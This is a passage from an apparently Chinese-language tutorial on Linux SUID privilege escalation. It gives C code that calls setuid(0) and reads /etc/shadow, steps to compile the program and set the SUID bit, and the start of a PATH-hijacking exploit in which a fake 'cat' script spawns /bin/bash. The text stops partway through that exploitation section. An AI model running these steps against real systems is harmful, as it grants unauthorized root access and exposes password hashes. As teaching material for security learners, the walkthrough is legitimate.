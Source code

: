 

### 漏洞演示

```
vim suid.c
```

```c
#include<stdlib.h>
#include <unistd.h>
int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}
```

编译

```
gcc suid.c -o suid-exp
```

加上SUID权限位

```
chmod 4775 suid-exp
```

切换到普通用户去执行

```
su hacker
```

可以看到当我们用hacker用户去执行suid_exp可执行文件后，hacker用户的uid和组都变成了root用户和root组。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828095330.png)

通过以上演示，可以知道确实存在SUID权限方面的漏洞，并且我们通过命令查找到有很多SUID文件，那么我们就要利用好这些“尚方宝剑”。

### 漏洞利用

```
echo "/bin/bash cat" > cat && chmod 777 cat
```

查看添加当前环境变量

```
hacker@webper-virtual-machine:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

并将当前目录添加到环境变量中

```
hacker@webper-virtual-machine:/tmp$ export PATH=.:$PATH
```
